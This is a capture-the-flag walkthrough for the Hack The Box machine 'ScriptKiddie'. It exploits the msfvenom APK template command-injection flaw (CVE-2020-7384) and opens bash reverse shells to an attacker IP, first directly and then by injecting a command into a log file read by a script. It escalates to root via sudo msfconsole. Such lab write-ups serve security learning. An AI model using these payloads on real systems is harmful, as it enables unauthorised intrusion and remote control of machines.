


# ScriptKiddie

## Details
* **Points**: 20
* **Difficulty**: Easy  
* **Operating System**: Linux
* **IP Address**: 10.10.10.226

## Table of Contents
* Foothold & User
  * [Network Scanning](#network-scanning)
  * [Website Exploration](#website-exploration)
  * [CVE-2020-7384: Msfvenom APK Template Command Injection](#cve-2020-7384-msfvenom-apk-template-command-injection)
  * [Getting the User Flag](#getting-the-user-flag)
* Root
  * [Getting Fully Interactive Shell](#getting-fully-interactive-shell)
  * [`pwn` user](#pwn-user)
  * [`scanlosers.sh`](#scanloserssh)
  * [`pwn` Reverse Shell](#pwn-reverse-shell)
  * [Getting the Root Flag](#getting-the-root-flag)

## Walkthrough

### Network Scanning
Firstly, we start off with network scanning with Nmap.

```
$ sudo nmap -A -p$(nmap -T4 -p- 10.10.10.226 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.10.226                                                  
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 15:27 AEST
Nmap scan report for 10.10.10.226
Host is up (0.022s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   22.01 ms 10.10.14.1
2   22.13 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.50 seconds
```

Port 5000 of the remote machine is running a web server. Let's visit `http://10.10.10.226:5000/`.

### Website Exploration


It seems that the website features several hacking tools, which are nmap, msfvenom and searchsploit.

Firstly, let's look at nmap.


In this case, the nmap used is version 7.80, which has no publicly known vulnerabilities.

Now, let's move on to msfvenom. It allows template file to be uploaded. Since I have never used msfvenom with template before, I looked it up on Google.

Apparently, a template file can be used to [evade detection by an anti virus software](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates). While researching further, I stumbled upon [this](https://www.exploit-db.com/exploits/49491) entry in exploit-db. When generating a payload with msfvenom, using an APK template file can result in command injection.

### CVE-2020-7384: Msfvenom APK Template Command Injection


We can also find the vulnerability entry in `msfconsole`.
```
$ msfconsole -q
msf6 > search msfvenom

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```

Let's use the exploit and configure the available options.
```
msf6 > use 0
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

# -- snip --

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.14
```

I left the listening port as 4444. Finally, execute `exploit` and metasploit should generate the apk file `msf.apk` automatically.

Alternatively, we can generate the apk file `evil.apk` with the script we found earlier in searchsploit.

```
searchsploit -m multiple/local/49491.py
```

Then, change the payload to

```python
# Change me
payload = '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"'
```

Finally, run the modified script

```
python3 49491.py
```

### Getting the User Flag
Next, upload the apk template file to the website. Change the `os` to `android` and `lhost` to your ip address.


Set up a listener with `nc -nlvp 4444` and click on `generate` on the website.

Now, we should get a reverse shell on the remote machine as user `kid`. 



### Getting Fully Interactive Shell
NOTE: to do the following steps make sure to use bash instead of zsh, which is the default shell of the newer version of kali linux.

Once we have got the user shell, we can try to [upgrade the shell to a fully interactive shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). This is done to prevent accidentally killing the reverse shell connection and spawning weird characters when clicking the arrow keys.

Firstly, we spawn a pseudo-terminal with python then background the shell with `Control+Z`.
```
kid@scriptkiddie:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ ^Z
[1]+  Stopped                 nc -nlvp 4444
```

Next, get info of our terminal. Take note of $TERM, rows and columns.
```
$ echo $TERM
xterm-256color
$ stty -a
speed 38400 baud; rows 47; columns 177; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;
discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

Finally, make the terminal pass through keyboard shortcuts and so on with `$ stty raw -echo` and then foreground the terminal with `fg`. Then, set up the SHELL and TERM environment variables along with the rows & columns of the terminal to match our own.
```
$ stty raw -echo
$ fg
kid@scriptkiddie:~/html$ export SHELL=bash
kid@scriptkiddie:~/html$ export TERM=xterm-256color
kid@scriptkiddie:~/html$ stty rows 47 columns 177
```
### `pwn` user

Reading the `/etc/passwd` file tells us that there is another user in the machine, which is `pwn`.
```
kid@scriptkiddie:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

# -- snip -- 

kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```

### `scanlosers.sh`
Looking at `pwn` home directory, we can find a script `scanlosers.sh`

```
kid@scriptkiddie:~$ cd /home/pwn
kid@scriptkiddie:/home/pwn$ ls
recon  scanlosers.sh
```

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

So, the script reads the file from `/home/kid/logs/hackers`, which we can write into.
```
kid@scriptkiddie:/home/pwn$ ls -l /home/kid/logs/hackers
-rw-rw-r-- 1 kid pwn 0 Feb  3 11:46 /home/kid/logs/hackers
```

Then, it will ignore the first two words with `cut -d' ' -f3-`. The `-f3-` takes the third word and anything after it from each line (this differs from `-f3`, which only takes the third word from each line).

### `pwn` Reverse Shell
What we can do is to write into `/home/kid/logs/hackers` the script that will generate a new reverse shell.
```
echo "  ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/5555 0>&1'; " > /home/kid/logs/hackers
```

Note that we need to insert two spaces at the beginning of our script. This will be split by `cut -d' ' -f3-` and the first two words will be an empty string. The third word onwards will be `; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/5555 0>&1'; `, which will give us a new reverse shell as `pwn`.

Don't forget to set a listener on port 5555 with `nc -nlvp 5555`.

Next, upgrade our shell to a fully interactive shell again.

### Getting the Root Flag
Once we got the reverse shell of `pwn` user, we can try to execute `sudo -l` to determine the user's permission.
```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

In this case, we can execute `msfconsole` as root, which we can use to get the root flag.
